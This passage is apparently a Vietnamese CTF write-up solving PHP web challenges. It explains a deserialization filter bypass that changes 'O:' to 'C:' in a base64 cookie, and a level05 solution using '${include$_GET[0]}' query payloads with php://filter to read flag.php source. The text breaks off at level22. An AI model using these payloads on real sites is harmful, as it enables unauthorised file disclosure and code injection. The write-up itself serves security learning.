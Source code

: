Thêm một bài serialize rồi gán vào cookie khá giống bài trên nhưng lần này có filter thêm một số kí tự và đặc biệt là filter `O:`. Mục đích của việc này là để chống khi serialize ra thì sẽ có định dạng O: ở đầu chỉ thị chữ Object. Để bypass cái này thì thay vì `O`, ta có thể dùng `C`, tham khảo ở [đây](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html)

![image](https://user-images.githubusercontent.com/75429369/180036370-566fcf67-a97c-4bd4-b3aa-bb02c9d17d39.png)

```php
<?php
class Flag {

}

$a = new Flag();

echo (serialize($a));
```

![image](https://user-images.githubusercontent.com/75429369/180038108-11e50f18-7b83-4f4c-8e1f-be06f6e90770.png)

Sửa lại thành `C:4:"Flag":0:{}` rồi đem đi base64 encode rồi request với cookie với giá trị đó thôi

![image](https://user-images.githubusercontent.com/75429369/180038299-f8a54e8f-d3ed-4f05-a2c3-caa83d27428e.png)

_làm xong bật call me maybe nghe là đúng bài luôn á_

# level05

Bài này cho ta nhập một chuỗi nào đó sau đó `echo` ra, source:

![image](https://user-images.githubusercontent.com/75429369/180108461-f7a61dee-b3b6-4a3e-9eb6-c0dcf7783239.png)

Lệnh echo thực hiện bình thường nên ta có thể echo thử biến được khai báo trong source code để test, thử echo $blacklist

![image](https://user-images.githubusercontent.com/75429369/180108967-8f498e66-7034-43ef-ae38-348e627c444c.png)

Vậy thì từ lệnh echo này ta sẽ cố gắng làm sao để đọc được `flag.php`. Ta có thể sử dụng trick sau

![image](https://user-images.githubusercontent.com/75429369/180109136-054ec694-749c-4f25-93ce-a4330a805594.png)

php treat code trong ${<đoạn code nào đấy>} bằng cách chạy hàm của đoạn code bên trong, ở đây thì đã bị filter dấu ngoặc và `'` rồi nên không dùng function chạy code execution được. Tới đây thì ngẫm lại ta đã biết tên file flag là gì rồi nên có một cách là ta sẽ include thẳng file flag đó ra luôn là được 

```
?q=${include$_GET[0]}&0=flag.php
```

![image](https://user-images.githubusercontent.com/75429369/180110169-926c085d-d728-43a4-a486-f32dfdc3b97e.png)

402 sao, thế đọc hẳn source code luôn

```
?q=${include$_GET[0]}&0=php://filter/convert.base64-encode/resource=flag.php
```

![image](https://user-images.githubusercontent.com/75429369/180110502-73454281-15f9-4ac9-90d0-aa4203d26dd4.png)

![image](https://user-images.githubusercontent.com/75429369/180110520-d16e290f-ab39-4e4b-9248-a9702adb2d1c.png)

# level22

Bài cho ta một service giống `3v4l.org` nhưng có filter waf rất nhiều lên input nhập vào
